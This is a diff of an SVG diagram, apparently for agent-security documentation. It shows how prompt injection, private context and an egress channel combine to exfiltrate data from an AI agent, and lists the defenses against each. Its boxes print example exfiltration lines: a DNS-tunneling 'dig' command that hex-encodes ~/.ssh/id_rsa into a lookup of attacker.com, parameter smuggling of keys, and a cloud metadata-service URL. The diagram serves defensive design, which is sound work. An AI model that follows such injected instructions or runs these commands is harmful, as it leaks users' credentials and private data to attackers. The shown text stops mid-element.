

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 470" width="100%" height="100%">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 460" width="100%" height="100%" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif">
  <defs>
-     <style>
-       .bg { fill: #ffffff; }
-       .box-navy { fill: #f8fafc; stroke: #1e293b; stroke-width: 1.8; rx: 6; ry: 6; }
-       .box-teal { fill: #f0fdfa; stroke: #0f766e; stroke-width: 1.8; rx: 6; ry: 6; }
-       .box-burgundy { fill: #fef2f2; stroke: #991b1b; stroke-width: 2.0; rx: 6; ry: 6; }
-       .box-ochre { fill: #fffbeb; stroke: #92400e; stroke-width: 1.8; rx: 6; ry: 6; }
-       .title-text { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif; font-size: 15px; font-weight: 700; fill: #0f172a; }
-       .sub-text { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif; font-size: 11.5px; fill: #475569; }
-       .label-text { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif; font-size: 11px; fill: #1e293b; }
-       .code-text { font-family: "SFMono-Regular", Consolas, Menlo, monospace; font-size: 10px; }
-       .edge { stroke: #334155; stroke-width: 1.6; fill: none; }
-       .edge-red { stroke: #991b1b; stroke-width: 1.8; fill: none; }
-     </style>
-     <marker id="arr-red" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="6" markerHeight="6" orient="auto">
-       <path d="M 0 1 L 10 5 L 0 9 z" fill="#991b1b" />
+     <marker id="arr-navy" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#1e293b" />
+     </marker>
+     <marker id="arr-burgundy" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#991b1b" />
+     </marker>
+     <marker id="arr-teal" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#0f766e" />
    </marker>
  </defs>
-   <rect width="100%" height="100%" class="bg" />
-   <text x="480" y="28" text-anchor="middle" class="title-text" font-size="16px">The Data Exfiltration Conjunction and Covert Channels</text>
-   <text x="480" y="48" text-anchor="middle" class="sub-text">Exfiltration Requires All Three Preconditions; Breaking Any One Renders Injections Impotent</text>
-   <g transform="translate(60, 80)">
-     <rect width="250" height="150" class="box-teal" />
-     <text x="125" y="28" text-anchor="middle" class="title-text" font-size="13px" fill="#0f766e">Pillar 1: Sensitive Context</text>
-     <line x1="15" y1="38" x2="235" y2="38" stroke="#ccfbf1" stroke-width="1" />
-     <text x="125" y="62" text-anchor="middle" class="label-text">Private Repository Code</text>
-     <text x="125" y="82" text-anchor="middle" class="label-text">User PII &amp; Database Records</text>
-     <text x="125" y="102" text-anchor="middle" class="label-text">Short-Lived Access Tokens</text>
-     <rect x="25" y="116" width="200" height="24" rx="4" fill="#ffffff" stroke="#99f6e4" />
-     <text x="125" y="132" text-anchor="middle" class="code-text" fill="#0f766e">Defense: Scoped Context</text>
+   <rect width="960" height="460" fill="#ffffff" />
+   <g transform="translate(24, 20)">
+     <rect width="912" height="190" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
+     <rect width="912" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
+     <text x="14" y="19" font-size="9" font-weight="700" fill="#1e293b" letter-spacing="0.5">THE DATA EXFILTRATION CONJUNCTION: S_priv ∧ I_inject ∧ C_egress</text>
+     <g transform="translate(15, 38)">
+       <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1.2" />
+       <rect width="270" height="20" rx="3" fill="#f1f5f9" />
+       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">1. Sensitive Context Residency (S_priv)</text>
+       <text x="8" y="32" font-size="7.2" fill="#475569">Target of value resident in agent memory:</text>
+       <text x="14" y="46" font-family="monospace" font-size="7" fill="#334155">• Private source code / IP</text>
+       <text x="14" y="58" font-family="monospace" font-size="7" fill="#334155">• Database records &amp; customer PII</text>
+       <text x="14" y="70" font-family="monospace" font-size="7" fill="#334155">• Session tokens &amp; SSH credentials</text>
+       <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
+       <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
+       <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Zero Ambient Credentials in sandbox</text>
+       <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Opaque blob handles ($blob_id)</text>
+     </g>
+     <text x="299" y="112" font-size="16" font-weight="700" fill="#991b1b" text-anchor="middle">∧</text>
+     <g transform="translate(321, 38)">
+       <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#991b1b" stroke-width="1.2" />
+       <rect width="270" height="20" rx="3" fill="#fee2e2" />
+       <text x="8" y="14" font-size="8" font-weight="700" fill="#991b1b">2. Injected Adversarial Instruction (I_inject)</text>
+       <text x="8" y="32" font-size="7.2" fill="#475569">Untrusted data payload steering reasoning:</text>
+       <text x="14" y="46" font-family="monospace" font-size="7" fill="#991b1b">• Indirect prompt injection in web page</text>
+       <text x="14" y="58" font-family="monospace" font-size="7" fill="#991b1b">• Malicious pull request comment</text>
+       <text x="14" y="70" font-family="monospace" font-size="7" fill="#991b1b">• Poisoned dependency documentation</text>
+       <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
+       <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
+       <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Quarantined Reader (Dual-LLM)</text>
+       <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Grammar-constrained JSON decode</text>
+     </g>
+     <text x="605" y="112" font-size="16" font-weight="700" fill="#991b1b" text-anchor="middle">∧</text>
+     <g transform="translate(627, 38)">
+       <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1.2" />
+       <rect width="270" height="20" rx="3" fill="#f1f5f9" />
+       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">3. Outbound Egress Channel (C_egress)</text>
+       <text x="8" y="32" font-size="7.2" fill="#475569">Pathway to transmit bits to external host:</text>
+       <text x="14" y="46" font-family="monospace" font-size="7" fill="#334155">• Parameter smuggling in authorized APIs</text>
+       <text x="14" y="58" font-family="monospace" font-size="7" fill="#334155">• Covert DNS tunneling (UDP 53)</text>
+       <text x="14" y="70" font-family="monospace" font-size="7" fill="#334155">• Direct socket / HTTP POST egress</text>
+       <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
+       <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
+       <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Dynamic Taint Tracking on sinks</text>
+       <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Split-horizon DNS + port 53 drop</text>
+     </g>
  </g>
-   <text x="335" y="160" text-anchor="middle" class="title-text" font-size="22px" fill="#64748b">+</text>
-   <g transform="translate(360, 80)">
-     <rect width="250" height="150" class="box-burgundy" />
-     <text x="125" y="28" text-anchor="middle" class="title-text" font-size="13px" fill="#991b1b">Pillar 2: Injected Payload</text>
-     <line x1="15" y1="38" x2="235" y2="38" stroke="#fecaca" stroke-width="1" />
-     <text x="125" y="62" text-anchor="middle" class="label-text" fill="#991b1b">Indirect Prompt Injection</text>
-     <text x="125" y="82" text-anchor="middle" class="label-text" fill="#991b1b">Malicious Web / Issue Content</text>
-     <text x="125" y="102" text-anchor="middle" class="label-text" fill="#991b1b">Adversarial Dependency Docs</text>
-     <rect x="25" y="116" width="200" height="24" rx="4" fill="#ffffff" stroke="#fca5a5" />
-     <text x="125" y="132" text-anchor="middle" class="code-text" fill="#991b1b">Defense: Quarantined Reader</text>
-   </g>
-   <text x="635" y="160" text-anchor="middle" class="title-text" font-size="22px" fill="#64748b">+</text>
-   <g transform="translate(660, 80)">
-     <rect width="250" height="150" class="box-ochre" />
-     <text x="125" y="28" text-anchor="middle" class="title-text" font-size="13px" fill="#92400e">Pillar 3: Outbound Channel</text>
-     <line x1="15" y1="38" x2="235" y2="38" stroke="#fde68a" stroke-width="1" />
-     <text x="125" y="62" text-anchor="middle" class="label-text">Network HTTP/TCP Sockets</text>
-     <text x="125" y="82" text-anchor="middle" class="label-text">Tool Parameter Smuggling</text>
-     <text x="125" y="102" text-anchor="middle" class="label-text">Covert DNS Tunneling</text>
-     <rect x="25" y="116" width="200" height="24" rx="4" fill="#ffffff" stroke="#fcd34d" />
-     <text x="125" y="132" text-anchor="middle" class="code-text" fill="#92400e">Defense: Egress Containment</text>
-   </g>
-   <line x1="485" y1="230" x2="485" y2="280" class="edge-red" marker-end="url(#arr-red)" />
-   <text x="495" y="260" class="sub-text" fill="#991b1b" font-weight="700">Exploits Covert Egress</text>
-   <g transform="translate(80, 285)">
-     <rect width="800" height="155" rx="8" ry="8" fill="#f8fafc" stroke="#991b1b" stroke-width="1.8" />
-     <text x="400" y="26" text-anchor="middle" class="title-text" font-size="13px" fill="#991b1b">Taxonomy of Covert Exfiltration Channels</text>
-     <g transform="translate(30, 45)">
-       <rect width="230" height="90" class="box-navy" />
-       <text x="115" y="24" text-anchor="middle" class="title-text" font-size="11.5px">1. Parameter Smuggling</text>
-       <text x="115" y="44" text-anchor="middle" class="code-text" fill="#991b1b">search(q="secret_token")</text>
-       <text x="115" y="62" text-anchor="middle" class="code-text" fill="#991b1b">create_issue(title=key)</text>
-       <text x="115" y="80" text-anchor="middle" class="sub-text">Smuggled into benign APIs</text>
+   <g transform="translate(24, 226)">
+     <rect width="912" height="214" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
+     <rect width="912" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
+     <text x="14" y="19" font-size="9" font-weight="700" fill="#1e293b" letter-spacing="0.5">COVERT CHANNEL TAXONOMY &amp; SYSTEMS REMEDIATION</text>
+     <g transform="translate(15, 38)">
+       <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
+       <rect width="280" height="20" rx="3" fill="#f1f5f9" />
+       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">A. Tool Parameter Smuggling</text>
+       <text x="8" y="32" font-size="7" fill="#475569">Attacker encodes stolen secret into normal API call:</text>
+       <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
+       <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">search_docs(query="leak_" + hex(KEY))</text>
+       <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Target: legitimate public registry log</text>
+       <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
+       <text x="8" y="102" font-size="7" fill="#334155">1. Entropy profiling: H(X) &gt; 4.5 bits/char flagged</text>
+       <text x="8" y="114" font-size="7" fill="#334155">2. Regex secret mask: Redacts AKIA, ghp_, PEM keys</text>
+       <text x="8" y="126" font-size="7" fill="#334155">3. Reference substitution: Pass $ref_3, not raw text</text>
+       <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
+       <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: Intercepted by Reference Monitor</text>
    </g>
-     <g transform="translate(285, 45)">
-       <rect width="230" height="90" class="box-navy" />
-       <text x="115" y="24" text-anchor="middle" class="title-text" font-size="11.5px">2. DNS Tunneling (UDP 53)</text>
-       <text x="115" y="44" text-anchor="middle" class="code-text" fill="#991b1b">nslookup hex(secret).att.com</text>
-       <text x="115" y="62" text-anchor="middle" class="sub-text">Bypasses TCP firewall gates</text>
-       <text x="115" y="80" text-anchor="middle" class="sub-text">Resolved by public recursors</text>
+     <g transform="translate(316, 38)">
+       <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
+       <rect width="280" height="20" rx="3" fill="#f1f5f9" />
+       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">B. DNS Tunneling (UDP Port 53)</text>
+       <text x="8" y="32" font-size="7" fill="#475569">Exfiltration over recursive domain name queries:</text>
+       <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
+       <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">dig $(xxd -p ~/.ssh/id_rsa).attacker.com</text>
+       <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Bypasses standard TCP/HTTP firewall blocks</text>
+       <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
+       <text x="8" y="102" font-size="7" fill="#334155">1. Split-horizon DNS: Drop public recursors (8.8.8.8)</text>
+       <text x="8" y="114" font-size="7" fill="#334155">2. Static host injection: Hardcode /etc/hosts at boot</text>
+       <text x="8" y="126" font-size="7" fill="#334155">3. iptables -A FORWARD -p udp --dport 53 -j DROP</text>
+       <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
+       <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: Silent Kernel Drop at Bridge Interface</text>
    </g>
-     <g transform="translate(540, 45)">
-       <rect width="230" height="90" class="box-navy" />
-       <text x="115" y="24" text-anchor="middle" class="title-text" font-size="11.5px">3. Metadata Service Probe</text>
-       <text x="115" y="44" text-anchor="middle" class="code-text" fill="#991b1b">http://169.254.169.254/meta</text>
-       <text x="115" y="62" text-anchor="middle" class="sub-text">Steals VM IAM host roles</text>
-       <text x="115" y="80" text-anchor="middle" class="sub-text">Requires link-local iptables drop</text>
+     <g transform="translate(617, 38)">
